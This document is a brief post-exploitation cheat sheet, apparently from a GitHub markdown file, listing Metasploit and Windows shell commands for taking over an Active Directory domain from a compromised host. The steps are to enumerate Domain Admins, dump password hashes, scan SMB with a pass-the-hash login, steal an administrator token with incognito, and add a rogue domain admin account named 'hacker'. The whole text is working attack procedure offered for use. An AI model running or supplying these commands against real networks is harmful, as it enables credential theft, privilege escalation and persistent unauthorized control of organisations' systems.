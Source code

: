 <h3><i>

[+] After compromising a Windows machine:

[>] List the domain administrators:
From Shell - net group "Domain Admins" /domain

[>] Dump the hashes (Metasploit)

msf > `run post/windows/gather/smart_hashdump GETSYSTEM=FALSE`

[>] Find the admins (Metasploit)
spool /tmp/enumdomainusers.txt

msf > `use auxiliary/scanner/smb/smb_enumusers_domain`

msf > `set smbuser Administrator`

msf > `set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`

msf > `set rhosts 10.10.10.0/24`

msf > `set threads 8`

msf > `run`

msf> `spool off`

[>] Compromise Admin's box

meterpreter > `load incognito`

meterpreter > `list_tokens -u`

meterpreter > `impersonate_token MYDOM\\adaministrator`

meterpreter > `getuid`

meterpreter > `shell`

C:\> `whoami`
mydom\adaministrator

C:\> `net user hacker /add /domain`

C:\> `net group "Domain Admins" hacker /add /domain`

</i></h3>